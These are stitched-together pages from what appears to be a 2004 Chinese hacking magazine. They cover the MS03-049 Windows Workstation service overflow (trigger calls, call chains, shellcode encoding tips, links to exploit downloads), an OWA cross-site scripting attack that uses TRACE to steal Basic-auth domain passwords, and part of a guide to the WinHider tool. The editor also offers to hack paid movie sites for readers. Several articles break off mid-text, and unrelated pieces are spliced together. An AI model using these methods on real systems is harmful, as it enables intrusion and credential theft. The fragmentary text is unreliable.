从2004年开始，我就正式负责“脚本攻防”和“漏洞攻防”版块了，这里向大家保证，一定给大家带来最新最实用的脚本漏洞和系统漏洞，让大家都能更好地学习跟踪这方面的知识，做到“攻”“防”双丰收！大家可以给我写信聊聊技术（scriptsboy@hacker.com.cn），要看付费电影的也找我，哥们给你“黑”去！……本期我给大家带来了最新的 Windows Workstation 服务远程溢出漏洞分析，算是给大家新年的见面礼了！不用谢啦，不用谢……

难度等级：高　　前置知识：汇编语言

## Windows Workstation 服务远程溢出漏洞分析

文／LBXX

微软最近为了减轻系统管理员的工作负担，把发布安全公告的周期从不定期改为定期发布，这无疑给系统管理员安装补丁提供了极大的方便，可以一起安装几个补丁，而不用为每个补丁都折腾一番。在2003年11月11日，微软又一起发布了3个安全公告，其中漏洞危害等级最高的当属 MS03-049：Windows Workstation 服务远程溢出漏洞了。以下我们就这个漏洞的一些具体信息展开探讨。

关于这个漏洞的安全公告可以从 http://www.microsoft.com/technet/security/bulletin/MS03-049.asp 看到。但是按照惯例，微软网站上的安全公告只有一些关于漏洞的简单描述、受影响平台、补丁下载地址等，不会有详细的技术信息，这点信息对系统管理员人员来说已经足够了，但对想深入了解一些技术细节的读者来说是远远不够的。那么，一般情况下我们该从何处去了解漏洞的详细技术信息呢？一般有3种途径：

1. 在安全公告的后面，一般会有“感谢某某人／某某公司／某某组织发现并向微软提交漏洞”这样的信息，然后我们就可以尝试去漏洞发现者的网站上找找看有没有关于漏洞的详细技术信息。
2. 关注一些黑客／安全论坛、邮件列表等等，一般情况下在那些地方都会就漏洞展开一些深入的探讨。
3. 自己独立研究。假如上述途径不行，那就只有靠自己了。

本文提到的漏洞是由世界著名的网络安全公司 EEYE Digital Security 的安全研究人员发现的，在他们公司的网站上也公布了关于此漏洞的详细技术信息，我们可以从 http://www.eeye.com/html/Research/Advisories/AD20031111.html 获得这些信息（英文）。

### 详细技术信息

Microsoft DCE/RPC 服务可以提供网络管理功能，这些功能提供管理用户账户和网络资源的资源管理，部分网络管理功能在 Windows 目录下的 debug 子目录会生成调试日志文件。

微软 Windows 2000 和 Windows XP 中的 Workstation 服务在处理日志记录时缺少充分的边界缓冲区检查，远程攻击者可以利用这个漏洞提供超长参数触发缓冲区溢出，以 SYSTEM 权限（Workstation 服务默认以 SYSTEM 权限运行的）在系统上执行任意指令。

日志功能中使用 `vsprintf()` 在日志文件中生成字符串，日志文件名为 NetSetup.LOG，它保存在 `%SYSTEMROOT%\debug` 目录中。这个记录函数有部分处理 Workstation 服务命令的函数调用，如 NetValidateName、NetJoinDomain 等。在 `NetValidateName()` 这个函数中，computer name 作为第二个参数最终记录在日志文件中。

例如，我们使用如下形式调用 `NetValidateName()` API:

```c
NetValidateName(L"\\\\192.168.0.100", "AAAAAAAA", NULL, NULL, 0)
```

那么，我们可以在远程主机中产生如下记录条目:

```text
08/13 13:01:01 NetpValidateName: checking to see if '' is valid as type 0 name
08/13 13:01:01 NetpValidateName: '' is not a valid NetBIOS \\AAAAAAAA name: 0x57
```

如果我们指定超长字符串作为 `NetValidateName()` API 的第二个参数，如果调试文件可写就可以在特定主机上发生缓冲区溢出。

一般如果是 NTFS 文件系统，在 Windows 目录中的 debug 目录不允许所有人可写，这表示不能使用 NULL 会话来生成日志。因为 `WslImpersonateClient()` API 在打开日志文件前调用，如果连接客户端没有有效的权限来写日志文件，那么 `CreateFile()` 就会失败，`vsprintf()` 就不会被执行，因此此漏洞在 FAT32 系统和 `%SYSTEMROOT%\debug` 目录可写的情况下可被利用。

但是，在 Windows XP 上实现了部分扩展的 RPC 函数，这些函数在调用 `WslImpersonateClient()` 前打开日志文件，不过这些 RPC 函数没有提供文档化说明，但可以通过观察 WKSSVC.DLL 中的函数表得到。这些扩展命令的 RPC 号开始于 0x1B，如 0x1B 调用 `NetpManageComputers()`，但在打开日志文件前不调用 `WslImpersonateClient()`。

`NetpManageComputers()` 的使用没有被公开化，但是我们可以在 LMJoin.h 中找到 `NetAddAlternateComputerName()` API 的原型定义，这个 API 从 NETAPI32.DLL 导出，这个 API 也一样没有文档化。

我们可以使用如下形式调用这个 RPC 函数 (0x1B):

```c
NetAddAlternateComputerName("\\\\192.168.0.200", long_unicode_string, 0, 0, 0)
```

使用上述方法，我们不需要任何特殊权限（只需要有能建立 IPC NULL Session 的权限），便可使得远程主机把第二个参数写到它的日志文件中去；如定义超长 Unicode 字符串作为第二个参数("AlternateName")，在第一个参数指定的远程系统就会由于缓冲区溢出而崩溃。Unicode 字符串 `long_unicode_string` 会在日志记录函数调用前被转换为 ASCII 字符串。

### 汇编代码分析

从以上的详细技术信息中，我们可以得知有两种攻击方法。

- 调用 NetValidateName 函数，提供超长参数，发送至目标主机。

适用环境：Windows 2000，Windows XP。条件限制：目标文件系统为 FAT32，或 WINNT 目录中的 debug 目录可写。

录下的DEBUG任何人都具有写权限。

现在很少有Windows 2000/XP系统使用FAT32作为文件系统了吧？而且默认情况下，WINNT目录下的DEBUG目录只有管理员是具有写权限的，所以利用这种攻击方法没有实际意义。

当我们调用NetValidateName函数给目标主机发送一段超长数据后（假如目标系统满足上述条件限制），系统处理流程如下（以Windows 2000 server英文版为例）：

```
wkssvc!NetpValidateName
└─ wkssvc!NetpSetupOpenLog
   └─ wkssvc!NetpLogPrintHelper
      └─ wkssvc!NetpLogPrintRoutineV
         └─ wkssvc!NetpDebugDumpRoutine
```

### 2. 调用NetAddAlternateComputerName函数，提供超长参数，发送至目标主机

- **适用环境**：Windows XP。
- **条件限制**：只要能跟目标Windows XP系统建立IPC NULL Session就可以进行攻击。

当我们调用NetAddAlternateComputerName函数给目标主机发送一段超长数据后（假如目标系统满足上述条件限制），系统处理流程如下：

```
wkssvc!NetrAddAlternateComputerName
└─ wkssvc!NetpManageAltComputerName
   └─ wkssvc!NetpSetupOpenLog
      └─ wkssvc!NetpLogPrintHelper
         └─ wkssvc!NetpLogPrintRoutineVEx
            └─ wkssvc!NetpDebugDumpRoutine
               └─ MSVCRT!vsprintf
```

由上述内容我们可以看到，不管是哪种攻击方法，不管是攻击Windows 2000还是Windows XP平台，目标系统处理的流程都差不多，出现漏洞的都是wkssvc.dll中一个函数名为NetpDebugDumpRoutine的函数。

OK，我们现在就来分析一下出现漏洞的那个函数的汇编代码，看看漏洞是怎么产生的！

以下汇编代码（由最强悍的反汇编软件IDA分析所得）分析基于Windows XP简体中文专业版，没有安装任何补丁，wkssvc.dll的版本为5.1.2600.0（所以你在不同版本下看到的汇编代码可能稍有不同）。

**小编注：** 由于篇幅限制，本文涉及到的详细汇编代码分析我们已经收录入光盘杂志相关栏目中，请按文章名查找；其中的汇编代码中省略了一些无关紧要的代码。

## 漏洞利用难点分析

### 1. 通过NetValidateName函数发起攻击

如前所述，攻击Windows 2000 and Windows XP平台均可以通过调用NetValidateName这个函数来实现。但是，目标系统在处理这个函数发送的数据包过程中，在调用有漏洞的函数wkssvc!NetpDebugDumpRoutine将超长参数记录到日志文件触发缓冲区溢出之前，目标系统会先调用RpcImpersonateClient函数，模拟客户端的权限，以客户端提供的有效的访问令牌的权限去打开日志文件。也就是说，假如你跟目标系统建立的只是IPC NULL Session（空会话），那么目标系统是以空会话的权限去打开日志文件的。这样我们的问题就来了！当文件系统是NTFS的情况下，Windows 2000和Windows XP下的日志文件默认只有SYSTEM和管理员组才有权限写。所以，目标系统以空会话的权限去打开日志文件会失败，那么也就无法触发后面的缓冲区溢出了！所以，只有当目标系统是FAT格式文件系统时（因为FAT文件系统没有权限一说），或日志文件任何人具有可写权限时（没有管理员会这样设置吧？），这种方法才能攻击成功！

### 2. 通过NetAddAlternateComputerName函数发起攻击

这个函数只在Windows XP系统中的netapi32.dll中实现了，在Windows 2000中没有实现这个函数，所以不能调用这个函数对Windows 2000发起攻击，只能在Windows XP平台下，对Windows XP平台发起攻击。利用这个函数，只要能跟目标Windows XP系统建立空会话就可以了。

当然，我们也可以通过嗅探NetAddAlternateComputerName函数所生成的数据包，分析数据包格式，自己重组这个RPC数据包，这样就可以在别的平台上对Windows XP发起攻击了。

### 3. 字符转换

从前面的汇编代码分析中我们可以看到，攻击测试时发送的超长字符串会被转换成什么字符，直接取决于 `vsprintf` 函数的第二个参数（格式化串）。

#### 1) NetpValidateName

调用 `NetpValidateName` 函数发送超长字符串到目标系统时，目标系统会两次调用 `vsprintf` 函数把这些字符串保存在堆栈中。

第一次的格式化串为：
`NetpValidateName : checking to see if '%ws' is valid as type %d name`

第二次的格式化串为：
`NetpValidateName : '%ws' is not a valid NetBIOS %s name: 0x%lx`

对于格式化串 `%ws`，本质上它就是一个 `WideChar` 到 `MultiByte` 的转换过程，即是说把我们源字符串当作 `UNICODE` 串，然后把它转换成 `ANSI` 字符。在不同的平台下，对于 `%ws` 格式，`vsprintf` 的处理过程还有些差别，在下一部分我们再详细阐述。

虽然第一次和第二次的格式化串中都有 `%ws`，但在第二次的格式化串中还有一个 `%s`，所以，利用这个攻击测试时发送的超长字符串就不会被改变，即是说 `shellcode` 不会被转换成其他字符。

所以，利用 `NetpValidateName` 函数来发起攻击是相对比较容易的！

#### 2) NetAddAlternateComputerName

调用 `NetAddAlternateComputerName` 函数发送超长字符串到目标系统时，目标系统只有一次调用 `vsprintf` 的处理。格式化串为：
`AlternateName = %ws`

在 `WideChar` 到 `MultiByte` 的转换过程中，假如转换后的 `MultiByte` 不是合法的字符（合不合法取决于系统默认的 `CODEPAGE`），那么就会被截断或替换。事实上，在不同的平台下，`vsprintf` 函数对 `%ws` 的处理有些差别。

攻击 Windows XP SP0 英文版本时，可先把 `shellcode` 用函数 `MultiByteToWideChar` 进行转换（转换时用英文系统的 `CODEPAGE`），发送，目标系统在处理时，会做 `WideCharToMultiByte` 的操作（即 `%ws`），等于就把 `shellcode` 还原回到本来面貌了。

攻击 Windows XP SP0 中文版本时，可按上述方法把字符串进行编码（编码时必须用中文系统的 `CODEPAGE`），但是这对 `shellcode` 就有要求了。`shellcode` 必须符合这样的要求：经过 `MultiByteToWideChar` 和 `WideCharToMultiByte` 双重转换后不被改变。

攻击 Windows XP SP1 中英文版本时，只需要把 `shellcode` 做如下转换即可：
`\xXX\xXX -> \xXX\x00\xXX\x00`

所以，调用 `NetAddAlternateComputerName` 函数攻击 Windows XP 英文版本 SP0、SP1 是比较简单的。攻击 Windows XP 中文版本 SP1 也比较简单，但攻击 Windows XP 中文版本 SP0 就比较复杂了，需要编码符合要求的 `shellcode`。

## 测试代码一览

在微软发布这个漏洞的安全公告后不久，网上就有不少针对此漏洞的攻击测试代码在流传，以下我们就各攻击测试代码做一简要的介绍。

- 1. `s03049.rar`，作者 `sbaa`，可测试 Windows 2000 和 Windows XP。
  源代码及分析链接：`http://www.dav1d.org/list.asp?Unid=220`
  可执行文件下载链接：`http://sbaa.3322.org/public/tool/ms03049.rar`
- 2. `ms03-049-2.c`，作者 `snooq`，可测试 Windows 2000。
  源代码链接：`http://www.xfocus.net/tools/200311/ms03-049-2.c`
- 3. `WorkstationOverflow_MS03-049.c`，作者 `Hanabishi Recca`，可测试 Windows 2000。
  源代码链接：`http://www.xfocus.net/tools/200311/WorkstationOverflow_MS03-049.c`
- 4. `Ms03-049.cpp`，作者 `wirepair`，可测试 Windows XP SP0。
  源代码链接：`http://www.dav1d.org/list.asp?unid=212`

有兴趣的朋友可以通过上面的代码具体测试一下。非常遗憾的是，现在还没有绝对好的防范方法，只有升级补丁了。我们在防策关于此漏洞的防范进行了讨论，有兴趣的读者记得一阅哦！

## 从 OWA.XSS 攻击到微软用户域信任链的破解

**脚本小子：** 攻防是矛与盾的实体体现，每期黑防提供的最新漏洞分析希望大家不单单是只看到了这个漏洞攻击的方法和危害，同时还能从漏洞中找到这个漏洞为什么会出现？有什么危害？自己的计算机上有没有这个危害？该如何从漏洞分析的层次来弥补这个漏洞？这些都是我们文章中的潜语，希望大家都能够领会。我们的宗旨就是要带大家“在攻与防的对立统一中寻求突破”，让大家真正明白如何在表面的攻击、表面的防御中找到真正有用的技术，从而在攻与防的水涨船高中不断提升自己的安全技术水平，攻得酣畅淋漓，防得滴水不漏！

而最近，微软的漏洞更是层出不穷，何时才休止？最新的安全列表中关于 Exchange 的就有 3 项之多。今天我们就将带读者去了解最新的漏洞 MS03-46，希望大家能从中间意识到危机，又一轮攻击开始了……

- **难度等级**：高
- **前置知识**：OWA基本概念，微软BASIC认证方式，Base64编码

文／图 天街小雨

不知道大家对OWA/XSS是不是很了解？其实 OWA就是Exchange 2000的内部邮局系统，而XSS就是跨站点攻击脚本的意思。这两个词语放在一起又有什么关系呢？原来是因为OWA有安全漏洞，允许XSS在其本身产生，导致用户可能收到恶意代码，而这个恶意的代码将带给我们的将是意想不到的后果！

### OWA.XSS 漏洞的起源

Exchange 2000 (5.5)是微软公司推出的，在局域网内部广泛采用的一种邮件、交流软件。其本身功能强大，支持各种类型的邮件，包括txt和HTML格式的多彩邮件，并且邮件采用了IE的核心，导致exchange和跨站点脚本扯上了关系。

### 漏洞的分析

通过OWA发出的邮件，我们可以用Outlook 2000等邮件查看程序查看，也可以采用web方式查看，当我们查看的E-mail是HTML格式的时候exchange就会通过其过滤引擎发出警告对话框，要求用户必须点一下确认才可以接受查看html格式的邮件。它的Webmail格式像下面一样：

`http://www.fhltest.com/exchange/<username>/<inbox_name>/<subject>.EML/1_multipart/test.htm?Security=1`

大家注意到“security=1”这段了吗？当我们手动把这个字符串等式去掉以后再发给用户查看就会看到效果了，修改后的URL如下：

`http://www.fhltest.com/exchange/<username>/<inbox_name>/<subject>.EML/1_multipart/test.htm`

简简单单的一个词语就导致了OWA的跨站点攻击，且不会给用户任何提示。这样就完了吗？我们顺便从外网给一个内网安装了Exchange的朋友发信，当朋友回信的时候我们就可以从信件的“Referer”头中得到上面的资料，从而得到很多有用的信息：

1. 远程计算机的域名或者IP地址。
2. 邮件的主题。
3. 发邮件的用户名。

这些信息可以帮助我们再重新构建一个带有恶意的代码发回给邮件发送方。恶意代码常常包含了恶意脚本，为了让脚本可以运行，我们可以在邮件内部加入一个“self reference（自引用）”，也就是说把发信者发过来的信件中的security选项去掉并且做成的一个连接。去掉了安全过滤的邮件就不会产生任何提示了（图1）。



这个漏洞看上去不就是一个普通的XSS漏洞嘛，没什么大不了，你最多可以偷点cookies，非法存取别人的信箱资料，但是OWA XSS却会引起微软用户域信任密码泄露的安全漏洞。不明白我在说什么吗？我们接着往下说……

### 漏洞的安全升级

OWA常常使用cookies去跟踪用户的HTTP会话，但它也使用基础认证去验证用户是否拥有合法的使用权。基础认证是认证用户合法性标准的认证。最大的遗憾就是这种基础认证采用了BASE64的方法来加密密码。Base64不是一种可靠的安全加密方式，它是一种简单可逆的算法。大家想知道OWA把什么放在基础认证的请求头中吗？聪明的朋友可能已经想到了，那就是微软用户域信任密码。那么，怎样才能从XSS中得到用户的基础认证信息头呢？很简单，采用“TRACE”请求就可以了。

一般来说，IIS中的TRACE请求默认是开启的；而且管理员也不会去理会什么。下面看看我们得到的头信息（图2）：



呵呵，是不是很清楚地看到了认证头信息呢？总结一下我们得到的信息：

1. OWA、XSS过滤引擎存在缺陷。
2. 我们可以通过信件的referer信息得到用户具体的信箱位置。
3. OWA经常在局域网内使用。
4. 微软用户域信任密码常常被包含在base64基础认证中发送。
5. 客户可以通过TRACE命令得到这个基础头。

我们马上构造出来下面的HTML恶意代码：



呵呵，怎么样，给一个内部网用户传递一个Email马上就可以得到基础认证的用户密码，利用这个密码你可以渗透入侵内部网络了。这可比你用LC4去破解一个复杂的账号好多了。

### 重新认识IIS

在对OWA的基础认证进行了分析以后，我们得到的一个结论就是：基础认证是一种不安全的认证方式，如果哪个软件存在基础认证，那么它将有泄露密码的可能性。在对IIS配置的时候我们常常面对这样一个问题：如何选择IIS的安全性？举个例子，我们配置一个OWATEST的站点，按照默认设置，打开IE的时候由于东西存放在NTFS的目录下面，我们被要求输入密码：username: administrator，password: 123123。结果我们运行前面那段html文本得到的情况为（图3）：

（下转第42页）

---

**脚本小子：** Windows 系以漏洞繁多著称，最近微软的 Windows 2000 和 XP 操作系统中就又发现了新的安全漏洞（MS03-049），即这两个操作系统中的 Workstation Service（工作站服务）中存在缓冲溢出的漏洞。这种漏洞可让黑客进行远程攻击，并最终让系统不能正常工作。本文就针对此漏洞的利用进行了详细讨论，并在防策中针对此漏洞给出了详细的解决方法。OK，还是先让我们来看看如何针对这个漏洞进行攻击吧！

- **难度等级**：低
- **前置知识**：Windows 2000／XP 相关使用经验



## 远程溢出漏洞攻击实战

文／图 奇奇

微软 Windows 操作系统最近又发现了一系列安全漏洞，其中最为严重、最危险的漏洞当属 Windows Workstation Service（工作站服务）远程溢出漏洞，这是微软的又一个 Windows 操作系统赖以正常运行的基本服务，黑客利用这个漏洞可以进行远程溢出后获取系统权限，执行任意命令；安全专家也对此提出警告，称“微软的工作站服务的漏洞比较容易被攻击者所利用，也极容易被电脑蠕虫所利用”。下面我们就来看看针对这个漏洞的具体攻击情况。

### 漏洞情况

Workstation Service（工作站服务）是 Windows 操作系统赖以正常运行的基本服务之一，在微软的 Windows 2000 和 XP 操作系统中，Workstation Service（工作站服务）的默认配置为“ON”（图1），它主要用于让网络上的计算机访问文件服务器以及网络打印机。

造成此漏洞的主要原因是由于 Microsoft Workstation 服务在处理日志记录时缺少充分的边界缓冲区检查，在 wkssvc.dll 上的 vsprintf 调用没有检查输入缓冲的长度，利用函数 NetValidateName 提供超长参数可以直接触发缓冲区溢出，从而以 SYSTEM 权限在系统上执行任意指令。

Workstation 服务相关的日志功能中使用 vsprintf() 在日志文件中生成字符串，日志文件名为 NetSetup.LOG，保存在 Windows “debug” 目录中。这个记录函数有部分处理 Workstation 服务命令的函数调用，如 NetValidateName、NetJoinDomain 等。在 NetValidateName() 中，computer name 作为指定的超长字符串，是 NetValidateName() API 的第二个参数，如果调试文件可写就可以在特定主机上发生缓冲区溢出。一般如果是 NTFS 文件系统，在 Windows 目录中的 debug 目录不允许所有人可写，这表示不能使用 NULL 会话来生成日志；而如果是 FAT 文件系统，那就可能被成功利用，这样攻击者可以在受影响系统中获得系统权限，或导致 Workstation 服务失效。攻击者可以在系统中采取任何行为，包括……



图1

## WinHider的用法

WinHider共分4页，分管不同功能，我们了解了不同页的功能后就能按照每个按钮的功能来实现隐藏程序的目的了。

## 1. 任务页



此页（图1）显示所选择的待隐藏的任务列表，以及对这些任务的相关操作。

- **按钮Save as default**：就是把当前的列表存为文件，下次WinHider启动时会重新读入。
- **按钮Delete**：删除当前选中的任务。
- **按钮Browse**：浏览并选择一个文件，添加到任务列表里。从这个按钮可以看出WinHider的特点，以文件或者进程为单位，而不是以窗口为单位。
- **按钮Show/Hide**：强制显示当前选中任务窗口。比如，你删除了MSN Messenger的托盘图标，又手工隐藏了它的主窗口，它又没有热键可以显示，怎么办？只好用这个按钮，给你个补救的机会，把它显示出来。

## 2. 活动任务页

此页（图2）显示当前系统内所有拥有窗口的活动任务的列表。在Win98下，kernel32.dll赫然出现在这里。别怪我，要怪就怪M$吧，我用的是正规方法。



- **按钮Add**：把选中的任务加入到隐藏的任务里。
- **按钮Refresh**：刷新列表。由于WinHider会自动刷新列表，这个按钮基本没什么用。

## 3. 选项页

此页（图3）可以用来设定一些选项。

- **Hide/Show windows**：显示和隐藏窗口的热键，按下它就会显示或者隐藏窗口。注意，这个热键缺省值和ICQ的缺省热键是冲突的。
- **Active/Deactive WinHider**：显示和隐藏WinHider的热键。

**小窍门**：如果你忘记了这个热键，而且又把WinHider隐藏了，那么可以重新运行WinHider，这样第二个WinHider就会把第一个显示出来。

